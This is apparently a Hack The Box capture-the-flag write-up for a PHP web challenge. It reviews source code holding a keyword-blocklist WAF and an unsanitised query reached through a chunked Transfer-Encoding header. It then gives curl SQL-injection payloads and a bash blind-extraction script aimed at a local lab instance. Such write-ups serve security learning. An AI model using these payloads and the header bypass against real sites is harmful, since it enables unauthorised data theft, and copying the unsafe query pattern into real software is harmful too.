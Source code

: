 ```yaml
---
layout: post
title: 0xBOverchunked
date: 2024-03-01 18:27 -0500
img_path: /assets/img/0xBOcerchunked/
published: true
categories: ["Hack The Box"]
tags: ["sqli", "CTF","Web Challenge"]
toc: true
---
```

# 0xB0verchunked
The webpage features a basic search functionality, which suggests the possibility of an SQL injection. This suspicion deepens when a straightforward payload, such as ```1'```, is attempted
![Waf?](image.png)
lets take that string as the starting point on our source code review

## Source code Review

That string leads  us to the SearchHandler.php file. we observe that the function **waf_sql_injection** processes our input. Depending on the output, it will either execute the query using **safequery**, or displays the message "SQL Injection attemp..."

```php
<?php
function waf_sql_injection($input)
{
    $sql_keywords = array(
        'SELECT',
        'INSERT',
        'UPDATE',
        'DELETE',
        'UNION',
        'DROP',
        'TRUNCATE',
        'ALTER',
        'CREATE',
        'FROM',
        'WHERE',
        'GROUP BY',
        'HAVING',
        'ORDER BY',
        'LIMIT',
        'OFFSET',
        'JOIN',
        'ON',
        'SET',
        'VALUES',
        'INDEX',
        'KEY',
        'PRIMARY',
        'FOREIGN',
        'REFERENCES',
        'TABLE',
        'VIEW',
        'AND',
        'OR',
        "'",
        '"',
        "')",
        '-- -',
        '#',
        '--',
        '-'
    );

    foreach ($sql_keywords as $keyword)
    {
        if (stripos($input, $keyword) !== false)
        {
            return false;
        }
    }
    return true;
}

?>
```
Take and array of keywords and check if the input string contains any of them, *strpost()* function works: 'Find the position of the first occurrence of a case-insensitive substring in a string'. 
So we need to find a way inject without using any keywords on the array , first on my mind is how to escape the single quote without using single quote. 
Now check the other function **safequery** 
```php
function safequery($pdo, $id)
{
    if ($id == 6)
    {
        die("You are not allowed to view this post!");
    }

    $stmt = $pdo->prepare("SELECT id, gamename, gamedesc, image FROM posts  WHERE id = ?");
    $stmt->execute([$id]);

    $result = $stmt->fetch(PDO::FETCH_ASSOC);

    return $result;
}
```
Interesting that thing on post 6, but we can observe, they use prepared statement to execute queries, so even if we bypass the 'WAF' we can't inject sql queries. 

That thing of ```$id == 6 ``` wake up my curiosity and i decide to review db folder, because inspecting on the **Dockerfile**, I notice on line 17 
```RUN sqlite3 /opt/app/db/chunked.db < /opt/app/db/init.sql```
This command for initializing the SQLite database within the Docker container caught my attention. It hinted at the database structure and potential entry points for investigation.
```sql
INSERT INTO posts (gamename, gamedesc, image)
VALUES
  ('Pikachu', 'A small, yellow, mouse-like creature with a lightning bolt-shaped tail. Pikachu is one of the most popular and recognizable characters from the Pokemon franchise.', '1.png'),
  ('Pac-Man', 'Pac-Man is a classic arcade game where you control a yellow character and navigate through a maze, eating dots and avoiding ghosts.', '2.png'),
  ('Sonic', 'He is a blue anthropomorphic hedgehog who is known for his incredible speed and his ability to run faster than the speed of sound.', '3.png'),
  ('Super Mario', 'Its me, Mario, an Italian plumber who must save Princess Toadstool from the evil Bowser.', '4.png'),
  ('Donkey Kong', 'Donkey Kong is known for his incredible strength, agility, and his ability to swing from vines and barrels.', '5.png'),
  ('Flag', 'HTB{f4k3_fl4_f0r_t35t1ng}', '6.png');
```
Now we know what our goal is. 
Going back to the **SearchHandler.php** we can see the at the beginning, before entering the **waf_sql_injection** function an If statement 
```php
if (isset($_SERVER["HTTP_TRANSFER_ENCODING"]) && $_SERVER["HTTP_TRANSFER_ENCODING"] == "chunked")
{
    $search = $_POST['search'];

    $result = unsafequery($pdo, $search);

    if ($result)
    {
        echo "<div class='results'>No post id found.</div>";
    }
    else
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }

}
```
If we send a request with ```Transfer-encoding: chunked``` header besides the Content-length header, we will pass to the **unsafequery** function
```php
function unsafequery($pdo, $id)
{
    try
    {
        $stmt = $pdo->query("SELECT id, gamename, gamedesc, image FROM posts WHERE id = '$id'");
        $result = $stmt->fetch(PDO::FETCH_ASSOC);
        return $result;
    }
    catch(Exception $e)
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }
}
```
This function as his name suggest its unsafe because pass the ```$id``` variable whitout sanitization.


## Local Testing

We can make the request with the header required using Burp Suite.
![alt text](image-1.png)
The bad thing its that we need to update the size of the chunk manual, and that is horrible. 
So we can use curl command 
```bash
curl  -s -k -X 'POST'  -H 'Host: 127.0.0.1:1337' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Transfer-Encoding: chunked' -d "search=1'and 1=2-- -" 'http://127.0.0.1:1337/Controllers/Handlers/SearchHandler.php'

Internal Server Error
```
and 
```bash
curl  -s -k -X 'POST'  -H 'Host: 127.0.0.1:1337' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Transfer-Encoding: chunked' -d "search=1'and 1=1-- -" 'http://127.0.0.1:1337/Controllers/Handlers/SearchHandler.php'

<div class='results'>No post id found.</div>
```
Whith this we confirm a boolean-base sql injection. 

## Proof of Concept

Lets make a bash script to exploit this.
```bash
#!/bin/bash

url="http://127.0.0.1:1337/Controllers/Handlers/SearchHandler.php"

function oracle()
{
    local q="$1"
    request=$(curl  -s -k -X 'POST' -H 'User-Agent: Mozilla/5.0' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Transfer-Encoding: chunked' -d "search=1'AND (${q})--" ${url} | html2text)
#    echo ${request}
    if [[ "${request}" =~ "No post id found." ]]; then
        return 1
    else
        return 0   
    fi
}
finalValue=""
for i in $(seq 1 36); do
    low=32
    high=127
    while [[ "$low" -le "$high" ]]; do
       mid=$(((low + high) / 2))
       q="SELECT UNICODE(SUBSTR(gamedesc,${i},1)) FROM posts WHERE gamename='Flag' AND UNICODE(SUBSTR(gamedesc, ${i}, 1)) BETWEEN ${mid} AND ${high}"
        if oracle "$q"; then
            high=$((mid - 1))
        else
            low=$((mid + 1))
        fi     
    done
    finalValue=$((low - 1)) # Don't know why , - 1?
    printf "\x$(printf %x "${finalValue}")"
done
```

![pwned](image-2.png)